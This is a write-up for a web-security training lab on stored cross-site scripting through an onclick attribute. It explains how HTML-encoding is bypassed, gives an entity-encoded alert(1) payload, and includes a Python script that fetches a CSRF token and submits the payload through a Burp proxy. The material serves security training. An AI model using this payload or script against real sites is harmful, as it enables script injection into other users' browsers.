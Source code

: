 ```yaml
---
title: 'XSS Lab 20'
description: 'Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped'
---
```



## Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

<div style="text-align: justify;">
  This lab demonstrates a stored cross-site scripting (XSS) vulnerability in the comment functionality. The application sanitizes or HTML-encodes certain characters (angle brackets and double quotes) and escapes single quotes / backslashes, but the user-controlled value placed in the "Website" field is reflected into an `onclick` event handler attribute. By carefully crafting the payload and using Burp Suite to intercept and modify requests, it's possible to inject a JavaScript URL that will execute `alert()` when the comment author name is clicked.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The comment `website` input is stored and later reflected inside an element's `onclick` attribute.
- The application HTML-encodes `<`/`>` and `"` and escapes single quotes and backslashes, but the reflected value can still be manipulated to produce a `javascript:`-style URL inside the `onclick` handler.
- Submit a comment with a random marker in the `website` field, view the post, and intercept the request that renders the comment to find where your marker appears.
- Modify the stored value in the intercepted request to a payload that becomes a valid JavaScript call when the author name is clicked.
- Example payload (use in the `website` field then edit the reflected request):  
  `http://foo?&apos;-alert(1)-&apos;`
- Right-click the author link (or copy its URL) and open it — clicking the name triggers `alert(1)` and completes the lab.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests, sys, urllib3
from bs4 import BeautifulSoup

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
proxies = {'http': 'http://127.0.0.1:8080','https': 'http://127.0.0.1:8080'}

def check_burp():
    try:
        requests.get("http://127.0.0.1:8080", proxies=proxies, timeout=3, verify=False)
    except:
        print("[-] Burp Suite not running.")
        sys.exit(1)

def exploit_xss(url, payload):
    s = requests.Session()
    s.proxies, s.verify = proxies, False

    post_page = url.rstrip("/") + "/post?postId=5"
    r = s.get(post_page); r.raise_for_status()
    soup = BeautifulSoup(r.text, "html.parser")
    csrf = soup.find("input", {"name": "csrf"})["value"]

    data = {
        "csrf": csrf,
        "postId": "5",
        "comment": "xss",
        "name": "test",
        "email": "test@test.com",
        "website": payload
    }
    s.post(url.rstrip("/") + "/post/comment", data=data).raise_for_status()

    if "Congratulations" in s.get(url).text:
        print("[+] Lab solved! 🎉"); return True
    return False

def main():
    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>"); sys.exit(1)
    check_burp()
    print("[*] Attempting XSS...")
    if exploit_xss(sys.argv[1], 'http://foo?&apos;-alert(1)-&apos;'):
        print("[+] XSS successful!")
    else:
        print("[-] XSS unsuccessful.")

if __name__ == "__main__":
    main()
```